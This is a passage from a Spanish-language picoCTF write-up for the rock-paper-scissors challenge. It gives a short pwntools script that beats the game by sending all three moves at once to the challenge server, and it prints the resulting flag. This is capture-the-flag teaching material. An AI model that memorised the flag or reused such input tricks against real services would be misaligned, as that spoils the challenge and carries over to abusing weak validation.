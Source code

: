 ```bash

┌──(armando㉿kali)-[~/picoCTF/binaryExplotation/rps]
└─$ 
```

### Opción 2
- Creamos un programa en Python que lo haga por nosotros.
```python
from pwn import *

p = remote('saturn.picoctf.net', 62438)

for i in range(5):
        p.recvuntilb(b'exit the program')
        p.sendline(b'1')
        p.recvuntilb(b'(rock/paper/scissors)')
        p.sendline(b'paperrockscissors')

p.recvuntilb(b"Congrats, here's the flag!")
print(p.recvuntilb(b'}').decode())
p.sendline(b'2')
p.close()
```
- Y ya solo lo ejecutamos.
```bash
┌──(armando㉿kali)-[~/picoCTF/binaryExplotation/rps]
└─$ python3 solve.py
[+] Opening connection to saturn.picoctf.net on port 62438: Done

picoCTF{50M3_3X7R3M3_1UCK_C85AF58A}
[*] Closed connection to saturn.picoctf.net port 62438

┌──(armando㉿kali)-[~/picoCTF/binaryExplotation/rps]
└─$ 
```

## Notas Adicionales
## Referencias
